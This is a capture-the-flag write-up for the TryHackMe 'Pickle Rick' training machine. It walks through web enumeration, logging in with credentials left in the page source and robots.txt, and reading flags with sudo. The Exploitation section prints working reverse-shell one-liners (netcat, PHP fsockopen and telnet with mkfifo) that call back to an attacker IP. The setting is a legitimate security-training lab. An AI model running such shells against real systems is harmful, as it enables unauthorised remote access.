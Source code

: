 # TryHackMe: Pickle Rick CTF

Notes/writeup for the THM CTF machine titled "Pickle Rick."

https://tryhackme.com/room/picklerick

This is a fun machine that focuses on enumeration and investigation, reverse shells, and the linux file system.

* * *

## Enumeration

After starting the machine, I immediately ran a few different processes to gain a basic understanding of the machine and services.

The initial results were:

```
dirb:
	/assets/

nmap:
	port 22: OpenSSH
	port 80: Apache on Ubuntu
		System:
		Apache/2.4.18 (Ubuntu) Server at 10.10.139.155 		Port 80 
```

Main/Front Webpage:
![Front page](../cs_img_dir/front_page.png)


Source Code:
```
Note to self, remember username!

Username: R1ckRul3s
```

```
- username is embedded in the html code
- The text references "BURP" twice; At this point, I'm not sure if this is a reference to the show, or a hint that Burp Suite will be useful. 
```

With that said, I decided to open Burp and saw that the images being used were contained within a directory called /assets which is accessible.

	GET /assets/rickandmorty.jpeg
	/assets/ 

/assets contains photos and js files - I thought that perhaps the images contain something interesting. I ran stegseek while the nmap and dirb processes were finishing up, however nothing unusual was found in the photos 

    robots.txt: Wubbalubbadubdub 

I appended the string from robots.txt at the end of the URL as well as a subdirectory of /assets/ but nothing found. This will likely be useful at some point, however.


As seen above, the initial enumeration of the website did not return anything useful. I executed further enumeration with gobuster, and widened the scope to include various file extensions.

```
 gobuster -u http://10.10.139.155/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html -t 15
 
 Gobuster:
 /login.php 
```
This revealed a login page, which is likely the key to gaining a foothold on the system. 

With that discovery, a fair amount of progress has been made:

```
Known:
	- Username
	- Login page/a web form
	- a string, potentially a password 
```

With these discoveries, I attempted login for the user R1ckRul3s with the string found in robots.txt. Authentication was succesful and I was greeted with a command execution box.

* * *

## Foothold

The first commands I executed within the web terminal were:

```
id

ls -lah
```

As usual, we have a webshell with the www-data user, uid 33:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Immediately, the files output from ls, named below, stand out:

```
Sup3rS3cretPickl3Ingred.txt
clue.txt 
```

I attempted to run the cat command, however permission was denied, so we need to either find a way around this or find a privesc exploit.
Before moving on, however, I decided to try the strings command:

```bash
strings clue.txt
```

Fortunately, this does work. The file reads:

```
"Look around the file system for the other ingredient." 
```

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

I then tried the strings command for the "Sup3rS3cretPickl3Ingred.txt" file and surely enough, it worked. We now have our first flag/ingredient.

At this point, everything within the current directory is exhausted, so it is clear that in order to find more clues/flags, we will have to move onto other areas, as the clue suggests. I attempted to cd into different common directories and ran pwd, which as expected, showed we are within the:

```
/var/www/html 
```

directory, however I was unable to change directories.

* * *

## Exploitation

In order to make further progress, a more useful reverse shell must be established. Two common ways of accomplishing this would be to either start a local python http server and wget the reverse shell, or to simply use php/bash/netcat one-liner and directly execute it via the limited command input we already have.

I decided to go with the direct execution method and tried the following:

```
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4443 >/tmp/f"
```

The same error was seen, "Command disabled."

I then decided to try using php commands, which I generated via revshells.com.

```
nc -lvnp <port>
```

```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash <&3 >&3 2>&3");'
```

![failed connection](../cs_img_dir/revshell_fail.png)

The command was clearly executed, as a connection was made with netcat, however it immediately closed and could not be accesed. While this specific command did not work, there is at least confirmation that the commands are running and that connections can be made.

I continued trying various different methods, including php cmd, php exec, nc, bash, etc., none of which worked, however I was able to succesfully establish a reverse shell using telnet, via the following command:

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.13.5.104 4443 0<$TF | /bin/bash 1>$TF
```

First, I tried some broad searches to see if anything immediately stuck out:

```
locate *.txt
locate *.sh
```

I did not see anything particularly interesting, so I navigated to /home and found a directory called "rick."

Inside of rick was a file called "second ingredients" and executing the cat command succesfully returned the second ingredient.

```
cd /home
cd /rick
ls --> second ingredients
cat * --> flag
```

Now, only one flag/ingredient is left. Given past experience with similar CTF machines, I thought it likely that this last flag would require elevated permissions to access. After attempting to cd into /root, it is clear that the current privilege level does not allow for movement within the root directory despite the machine not displaying any errors via the terminal.

I ran the following commands as a preliminary search for any potential methods of access or vulnerabilties:

```
find . -perm /4000

sudo -l
```

- While I could have easily set up a python http server and simply run linenum, I wanted to try to avoid doing that and instead improve my ability to manually search for any exploits, misconfigurations, and general methods of accessing privileged files or processes.

Interestingly, sudo -l returned "ALL." This came as a surprise, so instead of continuing to search for privesc exploits, I instead tried:

```
sudo ls /root/
```

Surely enough, this did return the contents of /root, including what appears to be the third and final flag.

Next, I tried:

```
sudo cat /root/3rd.txt 
sudo strings /root/3rd.txt
```

However, these did not return anything. I tried one more command:

```
sudo vi /root/3rd.txt
```

and, the third flag was returned!
